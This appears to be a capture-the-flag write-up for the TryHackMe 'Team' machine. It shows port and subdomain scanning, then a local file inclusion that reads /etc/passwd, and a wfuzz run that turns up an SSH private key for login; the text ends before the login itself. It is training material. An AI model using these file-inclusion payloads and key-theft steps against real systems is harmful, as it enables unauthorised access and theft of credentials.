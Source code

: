 Hello this is my first write up I hope you will like it. For any questions or whatever message u can find me on Twitter https://twitter.com/Vojtech1337 . 
We will start with adding host to the /etc/hosts file and after that we will do all ports nmap scan.
```
echo "\n10.10.162.244 team.thm" >> /etc/hosts

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 06:13 EDT
Nmap scan report for 10.10.96.107 (10.10.96.107)
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that we have ftp open so lets try to login with anonymous and leave password blank. But we have noo success. Next comes the web page on port 80.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/team_web.png?raw=true)

It looks like a static page - nothing interesting there. Gobuster didn't find any directories but found one subdomain -dev.team.thm .
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     team.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
2022/10/07 07:11:48 Starting gobuster in DNS enumeration mode
===============================================================
Found: dev.team.thm
===============================================================
2022/10/07 07:20:56 Finished
===============================================================

```
We need to add it to the /etc/hosts as well to acess it.
```
echo "\n10.10.162.244 dev.team.thm" >> /etc/hosts
```
Now let's see what is on this page.
![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/dev_team_web.png?raw=true)

Only thing here is link when we click it it redirects us to dev.team.thm/script.php?page=teamshare.php . 
This URL with page parameter immediately looks vulnerable to LFI attack. The easiest way to start testing this vulnerability is putting 
/etc/passwd into the page parameter which is successful and we have valid vulnerability.
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
We can see that (judging by which users have /bin/bash shell) there are 3 users - gyles,dale and root.
Now to get most of it we'll spin up wfuzz to fuzz pages. I've used this wordlist with linux files - https://github.com/DragonJAR/Security-Wordlist/blob/main/LFI-WordList-Linux
```
wfuzz -u http://dev.team.thm/script.php?page=FUZZ -w LFI-WordList-Linux --hw 0

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.team.thm/script.php?page=FUZZ
Total requests: 771

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
					-------redacted---------
000000260:   200        78 L     339 W      2684 Ch     "/etc/sysctl.conf"
000000251:   200        169 L    447 W      5990 Ch     "/etc/ssh/sshd_config"
000000231:   200        66 L     412 W      2180 Ch     "/etc/security/time.conf"
000000222:   200        107 L    663 W      3636 Ch     "/etc/security/group.conf"
000000228:   200        74 L     499 W      2973 Ch     "/etc/security/pam_env.conf"
000000226:   200        29 L     217 W      1441 Ch     "/etc/security/namespace.conf"
000000230:   200        12 L     70 W       420 Ch      "/etc/security/sepermit.conf"                                                                   
```
It will return many files but the most important one is /etc/ssh/sshd_config which contains id_rsa key.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/Team/images/lfi_sshkey.png?raw=true)

Now we only need to copy the key to the file(without the hashes on the left) and chmod 600 and then we can simply use ssh command 
to connect to the machine.
```

```